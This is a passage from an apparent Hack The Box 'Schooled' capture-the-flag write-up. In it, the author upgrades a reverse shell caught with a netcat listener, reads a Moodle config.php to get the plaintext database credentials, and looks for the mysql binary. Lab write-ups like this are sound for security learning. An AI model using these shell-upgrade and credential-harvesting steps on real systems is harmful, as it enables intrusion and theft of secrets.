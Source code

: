 ```text
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ find / -name python* 2>/dev/null
/usr/local/man/man1/python3.7.1.gz
/usr/local/libdata/pkgconfig/python3.pc
/usr/local/libdata/pkgconfig/python-3.7m.pc
/usr/local/libdata/pkgconfig/python-3.7.pc
/usr/local/bin/python3.7m
/usr/local/bin/python3
```

Let's upgrade:

```text
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ ^Z  
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~/htb/schooled]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$
```

## MySQL Enumeration

I didn't find anything from a quick look around, but checking the Moodle docs I then found the config file here:

```text
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php
<?php  // Moodle configuration file
unset($CFG);
global $CFG;
$CFG = new stdClass();
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);
```

We have the mysql username and password. First we need to find where mysql is installed as it's not in the default path:

```text
[www@Schooled /usr/local/www/apache24/data/moodle]$ find / -name mysql 2>/dev/null
/usr/local/bin/mysql
```

